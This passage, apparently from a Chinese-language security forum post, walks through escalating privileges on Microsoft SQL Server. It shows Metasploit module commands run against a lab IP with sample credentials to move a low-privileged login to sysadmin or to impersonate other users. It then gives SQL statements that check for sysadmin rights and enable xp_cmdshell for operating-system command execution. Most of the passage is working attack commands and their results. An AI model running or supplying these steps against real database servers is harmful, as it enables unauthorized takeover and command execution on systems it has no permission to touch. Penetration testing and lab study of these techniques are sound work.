![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-16fdfd04d953a61c14c3a6e6b75d9bbb04f2bf22.png)

### 从 db\_owner 到 sysadmin

```php
use admin/mssql/mssql_escalate_dbowner
set rhosts 192.168.3.130
set username test1
set password admin@123
exploit
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-fd191391484172db162b828ffd0393772dda3677.png)  
可以看到已经从只有public升级为sysadmin  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-0fde26a6f58c39ffda1badd4a853be8c4aa29462.png)

### 模拟其他用户提权

```php
use auxiliary/admin/mssql/mssql_escalate_execute_as
set rhosts 192.168.3.130
set username test1
set password admin@123
exploit
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-e41969c72bd1f10aa4d53b90024955a7fa2eb9f5.png)

使用 xp\_cmdshell 执行命令
====================

### 启动xp\_cmdshell

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-42550b39535cf27cbc09ab5dc18a8e1d0642fc4f.png)  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-19cda71c4130a8bbafaaf49f7eab67657960a50c.png)

```php
/* 判断当前是否为 DBA 权限，返回 1 则可以提权 */
SELECT IS_SRVROLEMEMBER('sysadmin');

/* 查看是否存在 xp_cmdshell，返回 1 则存在 */
SELECT COUNT(*) FROM master.dbo.sysobjects WHERE xtype='x' AND name='xp_cmdshell'

/* 开启 xp_cmdshell */
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

/* 关闭 xp_cmdshell */
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 0;RECONFIGURE;
```
